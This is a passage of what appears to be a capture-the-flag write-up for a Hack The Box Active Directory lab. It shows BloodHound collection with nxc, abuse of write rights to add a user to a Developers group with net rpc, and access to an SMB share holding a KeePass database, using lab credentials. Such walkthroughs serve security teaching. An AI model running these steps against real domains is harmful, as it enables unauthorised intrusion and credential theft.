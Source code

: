 Looks like our account doesn't have WinRM access. So let's see if we can get a bloodhound scan to get a better vantage point.

```bash
nxc ldap $IP -u levi.james -p 'KingofAkron2025!' -c ALL --bloodhound
```

Import this into bloodhound and find our user levi.james.
We can see he has some form out outbound object control... leading to write access to the developers group.
![bloodhound_levi](../assets/posts/puppy/bloodhound_levi_write_dev.png)

So we can follow the instructions provided under the Linux Abuse about how to leverage this write access.
We can add levi.james to the developers group which should let us view that SMB share we could not view previously.

```bash
# Add dc.puppy.htb and puppy.htb to the /etc/hosts file
net rpc group addmem 'Developers@puppy.htb' 'levi.james' -U 'puppy.htb\levi.james%KingofAkron2025!' -s 'dc.puppy.htb'
# Verify
net rpc group members 'Developers' -U 'puppy.htb\levi.james%KingofAkron2025!' -s 'dc.puppy.htb'

$ smbclient '\\puppy.htb\DEV' -U 'puppy.htb\levi.james%KingofAkron2025!'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sat Mar 22 21:07:57 2025
  ..                                  D        0  Sat Mar  8 06:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sat Mar 22 21:09:12 2025
  Projects                            D        0  Sat Mar  8 06:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 16:25:46 2025
```
